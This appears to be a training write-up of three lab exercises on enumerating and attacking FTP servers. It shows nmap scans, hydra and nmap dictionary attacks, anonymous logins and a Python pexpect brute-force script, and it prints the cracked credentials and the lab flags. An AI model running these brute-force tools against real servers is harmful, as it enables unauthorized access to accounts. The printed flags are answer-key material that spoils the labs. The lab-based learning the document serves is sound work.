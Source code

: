 # 🔬FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is **`21`**, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
	eth1@if170718   UP   192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
[...]
Service Info: OS: Unix
```

![nmap -p21](.gitbook/assets/image-20230215114930223.png)

> 📌 FTP server version is `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

![hydra user:password attack](.gitbook/assets/image-20230215115946164.png)

> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3

ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>


`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>


`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>


`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>


`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>


`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>


`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>


`12a032ce9179c32a6c7ab397b9d871fa`

</details>

## Lab 2

>  🔬 [VSFTPD Recon: Basics](https://attackdefense.com/challengedetails?cid=519)
>
>  - Target IP: `192.119.169.3`
>  - Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

```bash
ip -br -c a
	eth1@if170803   UP  192.119.169.2/24
```

- Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

![](.gitbook/assets/image-20230215130759212.png)

> 📌 FTP server version `vsftpd 3.0.3`

- Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details>
<summary>Reveal Flag: 🚩</summary>


`4267bdfbff77d7c2635e4572519a8b9c`

</details>

------

## Lab 3

>  🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=520)
>
>  - Target IP: `192.14.30.3`
>  - Dicotionary attack on `vsftpd` server
>  - *FTP server terminates the session after 3 attemps*

```bash
ip -br -c a
	eth1@if170888   UP   192.14.30.2/24 
```

- Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
echo "billy" > users

nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 *billy*'s password is `carlos`

- A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
- `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

- Fetch the flag using `billy:carlos` credentials

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details>
<summary>Reveal Flag: 🚩</summary>


`c07c7a9be16f43bb473ed7b604295c0b`

</details>

------

